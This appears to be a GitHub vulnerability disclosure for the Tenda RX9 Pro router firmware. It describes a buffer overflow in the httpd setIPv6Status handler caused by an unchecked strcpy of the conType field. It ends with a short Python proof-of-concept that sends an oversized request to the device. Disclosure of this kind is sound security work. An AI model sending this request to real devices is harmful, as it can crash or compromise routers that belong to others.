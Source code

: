 # buffer overflow

## Tenda_RX9_Pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/setIPv6Status

## Source:

you may download it from : https://www.tendacn.com/download/detail-4218.html

## Analyse:


![](1.png)

get value from conType and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/setIPv6Status"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'conType': payload})
```
